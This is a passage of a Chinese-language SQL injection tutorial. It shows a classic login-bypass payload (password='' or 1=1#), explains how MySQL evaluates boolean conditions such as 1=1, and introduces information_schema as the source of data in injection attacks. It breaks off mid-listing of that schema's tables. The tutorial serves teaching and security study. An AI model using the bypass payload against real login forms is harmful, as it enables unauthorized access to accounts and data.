 sql:`Select * from admin where username=’admin’ and password=’’or 1=1#’`  

![](assets/markdown-img-paste-20180417151944889.png)


```
select * from users where id=1 and 1=1;
select * from users where id=1 && 1=1;
select * from users where id=1 & 1=1;
```

1和2是一样的，都是`id=1并且1=1`

3的意思是id=1条件与1进行&位操作,id=1被当作true,与1进行&运算结果还是1,再进行=操作,1=1,还是1(ps:&的优先级大于=)


### 默认数据库`information_schema`

因为我们注入基本都是通过过这个数据库得到重要数据的先来了解一下

```
mysql> use information_schema;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

mysql> show tables;
+---------------------------------------+
| Tables_in_information_schema          |
+---------------------------------------+
| CHARACTER_SETS                        |
| COLLATIONS                            |
| COLLATION_CHARACTER_SET_APPLICABILITY |
| COLUMNS                               |
| COLUMN_PRIVILEGES                     |
| ENGINES                               |
| EVENTS                                |
| FILES                                 |
| GLOBAL_STATUS                         |
| GLOBAL_VARIABLES                      |
| KEY_COLUMN_USAGE                      |
| PARTITIONS                            |
| PLUGINS                               |
| PROCESSLIST                           |
| PROFILING                             |
```